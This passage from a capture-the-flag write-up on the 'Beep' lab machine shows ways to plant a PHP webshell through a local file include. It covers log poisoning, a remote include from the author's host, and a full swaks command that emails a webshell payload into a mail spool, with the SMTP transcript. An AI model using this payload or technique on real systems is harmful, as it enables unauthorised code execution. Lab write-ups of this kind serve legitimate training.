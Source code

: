 
## Webshell Upload [Path #5]

### Get WebShell on Beep

#### Failures

Because I have a local file include, if I can get a webshell onto the host,
then I can get execution that way. I tried a bunch of things:

  * Log Poisoning - I can put a PHP webshell into the User-Agent header and it’ll be logged in the `access_log`. Unfortunately, I can’t read that file via the LFI. I’ve shown this [several times before](/tags.html#log-poisoning).
  * When I try to log into the Elastix web interface, it assigns a cookie, `elastixSession` that looks like `ambb7h36cmt7cngc245ilj6hp4`. Data about this session is stored at `/tmp/sess_ambb7h36cmt7cngc245ilj6hp4`, and I can access this file. Unfortunately, the files remain empty, I’m guessing until I’m able to log in. This is an attack I showed in [Unattended](/2019/08/24/htb-unattended.html#shell).
  * Instead of trying to access a file on the system, I tried to access `http://10.10.14.2/shell.php`, but this failed as well.

#### Email

One way to get a file on disk is email. I’ll send an email to one of the
accounts on the box, and then find it in `/var/mail/[username]`. Why not the
askerisk account? `swaks` will send the email (or I could do it with `telnet`
similar to the enumeration above):

    
    
    root@kali$ swaks --to asterisk@localhost --from 0xdf@0xdf.htb --header "Subject: test shel
    l" --body 'check out this code: <?php system($_REQUEST["cmd"]); ?>' --server 10.10.10.7
    === Trying 10.10.10.7:25...                                  
    === Connected to 10.10.10.7.
    <-  220 beep.localdomain ESMTP Postfix
     -> EHLO parrot
    <-  250-beep.localdomain                                     
    <-  250-PIPELINING
    <-  250-SIZE 10240000
    <-  250-VRFY                                                 
    <-  250-ETRN                                                 
    <-  250-ENHANCEDSTATUSCODES
    <-  250-8BITMIME
    <-  250 DSN
     -> MAIL FROM:<0xdf@0xdf.htb>
    <-  250 2.1.0 Ok
     -> RCPT TO:<asterisk@localhost>
    <-  250 2.1.5 Ok
     -> DATA
    <-  354 End data with <CR><LF>.<CR><LF>
     -> Date: Thu, 18 Feb 2021 15:33:00 -0500
     -> To: asterisk@localhost
     -> From: 0xdf@0xdf.htb
     -> Subject: test shell
     -> Message-Id: <20210218153300.1486384@parrot>
     -> X-Mailer: swaks v20201014.0 jetmore.org/john/code/swaks/
     -> 
     -> check out this code: <?php system($_REQUEST["cmd"]); ?>
      ->                                                          
     ->                    
     -> .
    <-  250 2.0.0 Ok: queued as 5BB88D92FD                       
     -> QUIT                                                     
    <-  221 2.0.0 Bye
    === Connection closed with remote host.
    